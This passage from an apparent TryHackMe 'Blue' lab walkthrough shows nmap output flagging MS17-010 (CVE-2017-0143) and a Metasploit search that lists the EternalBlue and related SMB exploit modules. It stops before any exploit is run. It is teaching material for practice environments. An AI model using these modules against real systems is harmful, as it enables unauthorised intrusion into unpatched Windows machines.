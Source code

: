 ```
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 176.46 seconds
```
### So,lots of ports are open,As we see our script find a vulnerability of Remote code exexution in smb server ```ms-17-010``` and the CVE ID is```CVE-2017-0143```
# <div align="center">Gaining Access</div>
### Let search this Vulnerability in Metasploit-framework
```
msfconsole -q
```
* -q = for quite mode
```
death@esther:~/Lab/thm-labs/Blue$ msfconsole -q
This copy of metasploit-framework is more than two weeks old.
 Consider running 'msfupdate' to update to the latest version.
msf6 > 
```
### Search for the  CVE
```
msf6 > search CVE-2017-0143

Matching Modules
================

   #   Name                                           Disclosure Date  Rank     Check  Description
   -   ----                                           ---------------  ----     -----  -----------
   0   exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1     \_ target: Automatic Target                  .                .        .      .
   2     \_ target: Windows 7                         .                .        .      .
   3     \_ target: Windows Embedded Standard 7       .                .        .      .
   4     \_ target: Windows Server 2008 R2            .                .        .      .
   5     \_ target: Windows 8                         .                .        .      .
   6     \_ target: Windows 8.1                       .                .        .      .
   7     \_ target: Windows Server 2012               .                .        .      .
   8     \_ target: Windows 10 Pro                    .                .        .      .
   9     \_ target: Windows 10 Enterprise Evaluation  .                .        .      .
   10  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   11    \_ target: Automatic                         .                .        .      .
   12    \_ target: PowerShell                        .                .        .      .
   13    \_ target: Native upload                     .                .        .      .
   14    \_ target: MOF upload                        .                .        .      .
   15    \_ AKA: ETERNALSYNERGY                       .                .        .      .
   16    \_ AKA: ETERNALROMANCE                       .                .        .      .
   17    \_ AKA: ETERNALCHAMPION                      .                .        .      .
   18    \_ AKA: ETERNALBLUE                          .                .        .      .
   19  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   20    \_ AKA: ETERNALSYNERGY                       .                .        .      .
   21    \_ AKA: ETERNALROMANCE                       .                .        .      .
```